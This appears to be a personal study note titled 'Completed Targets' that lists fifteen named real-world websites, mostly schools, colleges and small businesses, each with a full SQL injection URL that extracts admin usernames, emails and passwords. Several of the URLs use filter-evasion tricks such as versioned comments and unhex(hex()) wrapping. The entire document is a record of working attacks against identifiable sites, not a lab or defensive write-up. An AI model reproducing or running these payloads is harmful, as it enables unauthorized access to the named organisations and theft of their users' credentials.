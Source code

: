 # <mark style="background: #FF5582A6;">For Review : </mark> 
[[1-Intro]]
[[2-Sql Injection (Basic)]]
# <mark style="background: #FFB86CA6;">Completed Targets : 
</mark> 

1. http://kansascitynova.org/news.php?id=42%27%20union%20select%201,2,3,4,group_concat(username,0x3a3a,email,0x3a3a,password,%27%3Cbr%3E%27),6,7%20from%20sadmin_users--+

2. https://tristoneandtile.com/product.php?id=852999999.9%27%20union%20select%201,2,3,4,5,group_concat(admin_username,0x3a3a,admin_password,0x3a3a,admin_email,%20%27%3Cbr%3E%27),7,8,9,10,11,12,13,14%20from%20sq_admin--+

3. http://steerwings.com/university.php?id=-5%27%20union%20select%201,group_concat(usrsecunm_busssetup_eusr,0x3a3a,usrsecpwd_gpnl_busssetuppwd,%20%27%3Cbr%3E%27),3,4,5,6%20from%20bussasecsetepadm_stnlogn_tb--+

4. https://ijepr.org/paper.php?id=-204%27%20union%20select%201,2,3,4,group_concat(email,0x3a3a,password,%20%27%3Cbr%3E%27),6,7,8,9,10%20from%20admin--+

5. http://piriya-international.com/product.php?id=-72%20/*!12345union*//*!12345select*/%201,2,3,4,/*!12345unhex(hex(group_concat(email,0x3a3a,password,%20%27%3Cbr%3E%27)))*/,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34%20/*!12345from*/%20t_account--

6. https://www.htps.edu.hk/en/school.php?id=-19%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,unhex(hex(group_concat(usr_login_name,0x3a3a,usr_name,0x3a3a,usr_email,0x3a3a,usr_pwd,%20%27%3Cbr%3E%27))),21%20from%20usr--+

7. http://www.marywardlubhu.edu.np/school.php?id=168&cat_id=23%27%20/*!12345union*/%20select%20group_concat(username,0x3a3a,password,%20%27%3Cbr%3E%27)%20from%20tbl_admin--+

8. https://www.lingto.edu.hk/en/school.php?id=-59%27%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,unhex(hex(group_concat(usr_login_name,0x3a3a,usr_name,0x3a3a,usr_email,0x3a3a,usr_pwd,%20%27%3Cbr%3E%27))),21,22,23,24,25%20from%20usr--+

9. http://project-lovcen.me/gallery.php?id=-42%20union%20select%201,group_concat(user_id,0x3a3a,usn,0x3a3a,pass,%20%27%3Cbr%3E%27)%20from%20administracija--

10. https://www.appasamy.com/gallery.php?id=-9%27%20union%20select%201,group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27),3,4,5,6%20from%20admin--+

11. https://www.jisa.ac.in/gallery.php?id=-8%27%20union%20select%201,2,3,unhex(hex(group_concat(USER_NAME,0x3a3a,USER_PASS,%20%27%3Cbr%3E%27))),5,6,7,8,9,10%20from%20tbl_m_user--+

12. https://www.lghk.com/product.php?id=58&pid=-7%20union%20select%201,2,3,4,5,6,7,8,9,10,11,12,13,14,15,group_concat(usr_name,0x3a3a,usr_email,0x3a3a,usr_pwd),17%20from%20usr--

13. http://dhanalakshmicollegeofnursing.org/school.php?id=-12%20union%20select%201,group_concat(user_name,0x3a3a,user_password,0x3a3a,user_email,%20%27%3Cbr%3E%27),3,4,5,6,7%20from%20user--

14. http://ddpsbijnor.edu.in/ddpsbijnor-Gallery.php?id=-4%27%20/*!12345union*/%20/*!12345select*/%201,/*!12345unhex(hex(group_concat(username,0x3a3a,password,0x3a3a,email,%20%27%3Cbr%3E%27)))*/,3,4,5%20/*!12345from*/%20tbl_admin--+

15. https://theheritageschool.org/details-event.php?id=-162%27%20/*!12345union*/%20%20/*!12345select*/%201,%20/*!12345unhex(hex(group_concat(admin_name,0x3a3a,password,%20%27%3Cbr%3E%27)))*/,3,4,5,6,7%20%20/*!12345from*/%20dt_admin--+
